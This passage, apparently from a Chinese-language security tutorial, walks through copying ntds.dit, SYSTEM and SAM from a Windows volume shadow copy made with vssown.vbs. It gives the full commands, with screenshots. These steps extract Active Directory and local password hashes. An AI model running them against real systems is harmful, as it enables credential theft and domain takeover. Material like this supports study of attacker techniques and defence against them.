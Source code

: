 Step 2：创建一个C盘的影卷拷贝

cscript vssown.vbs /create c

[![image.png](assets/1698894155-1f2cf508f07a026dea1c6c175c911df2.png)](https://storage.tttang.com/media/attachment/2022/09/30/071b4cff-f909-4824-b8c9-954c1d776a0b.png)

Step 3:列出当前影卷拷贝  
cscript vssown.vbs /list

[![image.png](assets/1698894155-beeba1c1959e3e490653042cde947d5e.png)](https://storage.tttang.com/media/attachment/2022/09/30/7dfbb6a0-6338-4717-8074-d379961ccdcc.png)

Step 4：复制ntds.dit、SYSTEM、SAM文件

copy \\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy2\\windows\\ntds\\ntds.dit C:\\vssown\\ntds.dit  
copy \\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy2\\windows\\system32\\config\\SYSTEM C:\\vssown\\SYSTEM  
copy \\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy2\\windows\\system32\\config\\SAM C:\\vssown\\SAM

[![image.png](assets/1698894155-7d49a71fcc350292ee7f592b02cb1723.png)](https://storage.tttang.com/media/attachment/2022/09/30/b972905e-4a15-4c17-838e-0780270cfd11.png)
